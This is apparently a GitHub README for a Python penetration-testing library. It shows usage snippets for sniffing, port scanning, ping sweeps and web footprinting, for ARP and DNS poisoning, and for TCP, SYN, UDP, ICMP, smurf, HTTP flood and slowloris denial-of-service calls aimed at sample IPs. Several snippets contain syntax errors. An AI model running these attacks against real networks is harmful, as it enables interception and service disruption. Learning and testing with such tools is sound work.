 # Pentest
A cybersecurity ethical hacking library containing penetration testing tools such as network scanners, sniffer, DoS/DDoS and Man-in-the-middle attacks.

## Tools
* Sniffer ([Packet analyzer](https://en.wikipedia.org/wiki/Packet_analyzer))
* [Port scanner](https://en.wikipedia.org/wiki/Port_scanner)
* [Ping sweeper](https://en.wikipedia.org/wiki/Ping_sweep)
* [Web footprinting](https://en.wikipedia.org/wiki/Footprinting)
* [Man-in-the-middle](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)
  * [ARP spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
  * [DNS spoofing](https://en.wikipedia.org/wiki/DNS_spoofing)
* [Denial-of-service and distributed denial-of-service](https://en.wikipedia.org/wiki/Denial-of-service_attack)
  * TCP flood
  * [SYN flood](https://en.wikipedia.org/wiki/SYN_flood)
  * [UDP flood](https://en.wikipedia.org/wiki/UDP_flood_attack)
  * [Ping of death](https://en.wikipedia.org/wiki/Ping_of_death)
  * [Smurf attack](https://en.wikipedia.org/wiki/Smurf_attack)
  * [HTTP Flood](https://en.wikipedia.org/wiki/HTTP_Flood)
  * [Slowloris](https://en.wikipedia.org/wiki/Slowloris_(computer_security))
### Network scanner
#### Sniffer
Sniffes packets traffic on the local machine
```Python
from scan.monitor import Sniffer

sniffer = Sniffer()
# run sniffer
sniffer.start()
# stop sniffer
sniffer.stop()
```
The default packet handler simply prints each packet. You create a costum handler and handle each packet in any way you want.
```Python
def packet_handler(packet):
  # handle packet code
  
sniffer.start(packet_handler)
```

Add filters
```Python
# add source ip
sniffer.filters.src_ip.add('254.235.15.107')
# add list of source ip's
sniffer.filters.src_ip.add_list(['254.235.15.107', '156.185.129.18', '63.205.102.187'])
# remove filter
sniffer.filters.src_ip.remove('156.185.129.18')
# reset filter
sniffer.filters.src_ip.reset()
# reset all filters
sniffer.filters.reset()

# available filters
sniffer.filters.src_ip # source ip
sniffer.filters.dest_ip # destination ip
sniffer.filters.src_mac # source MAC address
sniffer.filters.dest_mac # destination MAC address
sniffer.filters.protocol # layer protocol
```

#### Port scanning
Scan network for open ports per given protocol (TCP/UDP)
```Python
import scan.portscan import PortScanner

network_ip = ""
scanner = PortScanner(network_ip)
# scan single port. returns true/false
import scan.portscan import TCP
port = 62300
scanner.scan_port(TCP, port)
# scan a range of ports. returns a list containing the results
# default range is 0 to 65535 if no range is provided
ports = (40000, 55000).
# set output as true to display the results while scanning
results = scanner.scanport(TCP, ports, output=true)
```
#### Ping sweep
Detection of other available machines on a network
```Python
import scan.pingsweep import PingSweep

scanner = PingSweep(target_network_ip)
# scans single ip address
scanner.ping_ip(target_ip) # returns True/False
# receives a range of ip addresses on the network and returns a list of the active addresses
ip_addresses = scanner.ping_sweep((1,255))
```
#### Website Footprinting
Perform tests on HTTP servers by analyzing the responses.
```Python
from scan import webfp
url = www.google.com
```
HTTP methods scan. Returns a list which contains a response for each request
```Python
webfp.check_http_methods(url)
# output
[('GET', 200, 'OK'), ('POST', 405, 'Method Not Allowed'), ('PUT', 405, 'Method Not Allowed'), ('DELETE', 405, 'Method Not Allowed'), ('OPTIONS', 405, 'Method Not Allowed'), ('TEST', 405, 'Method Not Allowed'), ('TRACE', 405, 'Method Not Allowed')]
```
HTTP headers scan
```Python
webfp.check_http_headers(url)
# output
[('Server', 'gws'), ('Date', 'Sun, 10 Jan 2021 19:29:10 GMT'), ('Via', 'No details'), ('X-Powered-By', 'No details'), ('X-Country-Code', 'No details'), ('Connection', 'No details'), ('Content-Length', '6215')]
```
HTTP security headers scan
```Python
webfp.check_http_headers(url, None)
# output
[('Strict-Transport-Security', 'Not set'), ('Content-Security-Policy', 'Not set'), ('X-Content-Type-Options', 'Not set'), ('X-Frame-Options', 'SAMEORIGIN'), ('X-Permitted-Cross-Domain-Policies', 'Not set'), ('X-XSS-Protection', '0'), ('Public-Key-Pins', 'Not set')]
```
HTTP banner grabing
```Python
webfp.grab_banner(url, 80)
# output 
b'HTTP/1.0 404 Not Found\r\nContent-Type: text/html; charset=UTF-8\r\nReferrer-Policy: no-referrer\r\nContent-Length: 1564\r\nDate: Sun, 10 Jan 2021 19:31:47 GMT\r\n\r\n<!DOCTYPE html>\n<html lang=en>\n  <meta charset=utf-8>\n  <meta name=viewport content="initial-scale=1, minimum-scale=1, width=device-width">\n  <title>Error 404 (Not Found)!!1</title>\n  <style>\n    *{margin:0;padding:0}html,code{font:15px/22px arial,sans-serif}html{background:#fff;color:#222;padding:15px}body{margin:7% auto 0;max-width:390px;min-height:180px;padding:30px 0 15px}* > body{background:url(//www.google.com/images/errors/robot.png) 100% 5px no-repeat;padding-right:205px}p{margin:11px 0 22px;overflow:hidden}ins{color:#777;text-decoration:none}a img{border:0}@media screen and (max-width:772px){body{background:none;margin-top:0;max-width:none;padding-right:0}}#logo{background:url(//www.google.com/images/branding/googlelogo/1x/googlelogo_color_150x54dp.png) no-repeat;margin-left:-5px}@media only screen and (min-resolution:192dpi){#logo{background:url(/'
```
#### Other scans
```Python
from scan import detect

# an attempt to detect a DoS attack by detecting exceptional occurrences of IP addresses
# accepts number of occurences limit condiiton of ip address and scan timeout in seconds
exceptions = detect.detect_exceptional_ip(15, 1)

# an attempt to detect ARP spoofing attack by scanning Ip and MAC addresses duplications in ARP cache table
# receives an ARP table or leave enpty for local table
suspects =  detect.scan_arp_table()
```

### Man in the middle (MITM)
#### ARP poisioning
Set gateway, victim and attacker MAC and IP addresses.
```Python
gateway= ('c91f05bc4c59', '93.120.174.77')
victim= ('7aab539606eb', '58.88.156.2')
attacker= ('50676bbcc76a', '132.39.100.142')
```
Execute attack.
```Python
from attack.mitm import ARPAttack

arp_attack = ARPAttack(gateway, victim, attacker)
# run attack
arp_attack.start_poisoning()
# stop attack
attack.stop_poisoning()
```
If the attack is successful, you will be able to capture packets traffic between the victim and the gateway.

#### DNS Poisoning
```Python
from attack.mitm import dns_poisoning
# receives target DNS server, original domain name, forged address and DNS query id numbers list
# the id numbers are required to forward a forged DNS answer to the target server
dns_poisoning(TARGET_SERVER, DOMAIN_NAME, FORGED_IP_ADDRESS, ID_LIST)
```
### Denial of Service (DoS and DDoS)
##### TCP and UDP attacks
```Python
from attack import dos

target_ip = '132.39.100.142'
port = "55400"
# timeout in seconds
timeout = 60

# TCP flood attack
dos.tcp_flood_attack(target_ip, port, timeout)

# TCP SYN attack
dos.syn_flood_attack(target_ip, port, timeout)

# UDP flood attack
dos.udp_flood_attack(target_ip, port, timeout)
```
#### ICMP (Ping) attacks
```Python
from attack import dos

target_ip = '132.39.100.142'
# timeout in seconds
timeout = 60
# use threading for faster performance
use_thread = True

# ping of death attack
dos.ping_of_death(target_ip, use_thread, timeout)

# DDoS smurf attack
dos.smurf_attack(target_ip, timeout)
```
#### HTTP attacks
```Python
from attack import dos

target_ip = '132.39.100.142'
# timeout in seconds
timeout = 60
port = 80
# number of requests to flood
requests = 100

# HTTP flood attack
dos.http_flood_attack(target_ip, port, requests, timeout)

# slowloris attack
dos.slowloris_attack(target_ip, port, requests, timeout)
```

### App


